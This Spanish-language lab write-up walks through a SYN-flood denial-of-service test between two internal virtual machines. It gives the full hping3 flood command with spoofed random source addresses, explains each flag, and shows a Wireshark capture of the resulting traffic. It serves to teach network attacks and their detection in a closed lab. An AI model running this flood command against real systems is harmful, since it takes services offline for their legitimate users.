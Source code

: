 Este laboratorio cuenta con dos máquina virtuales:
- Windows 10 con configuración de la red: red interna. IP 10.10.10.5
- Ubuntu 23.10 con configuración de la red: red interna. IP: 10.10.10.3

Comprobamos que las máquina virtuales se vean haciendo un ping:
![](capturas/ping.png)
![](capturas/ping.win.png)


En la máquina Windows:
- No hace falta desactivar el antivirus de Windows. Funciona igualmente.
- Abrimor Wireshark  para snifar el tráfico.

En la máquina Linux instalamos hping3 y lanzamos el ataque unos segundos:
```
sudo apt-get install hping3
sudo hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 10.10.10.5
```
Este comando está diseñado para enviar una gran cantidad de solicitudes SYN TCP al puerto 80 de la dirección IP 10.10.10.5, utilizando direcciones IP de origen aleatorias. Este tipo de ataque se conoce como un ataque de inundación SYN y puede utilizarse para sobrecargar un servidor objetivo, potencialmente causando una denegación de servicio para los usuarios legítimos.
-c 15000: Envía 15000 paquetes.
-d 120: Tamaño de cada paquete de 120 bytes.
-S: Establece el bit de SYN en los paquetes TCP, lo que es común en el establecimiento de una conexión TCP.
-w 64: Tamaño de ventana TCP de 64.
-p 80: Número de puerto de destino, 80 es el puerto HTTP estándar.
--flood: Envía paquetes lo más rápido posible sin esperar respuestas.
--rand-source: Utiliza direcciones IP de origen aleatorias.
10.10.10.5: La dirección IP del objetivo del ataque.
![](capturas/Dos-1.png)


Comprobamos en Wireshark el ataque:
![](capturas/wireshark-Dos-Attack.png)

```
117	53.374939	113.237.38.92	10.10.10.5	TCP	174	1528 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
118	53.374939	72.210.92.205	10.10.10.5	TCP	174	1529 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
119	53.374939	44.242.130.118	10.10.10.5	TCP	174	1530 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
120	53.374939	33.240.239.31	10.10.10.5	TCP	174	1531 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
121	53.374939	203.148.209.97	10.10.10.5	TCP	174	1532 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
```

Dentro de Wireshark --> Estadísticas --> Conversaciones --> Vemos en escasos segundos la cantidad de información que ha recibido:

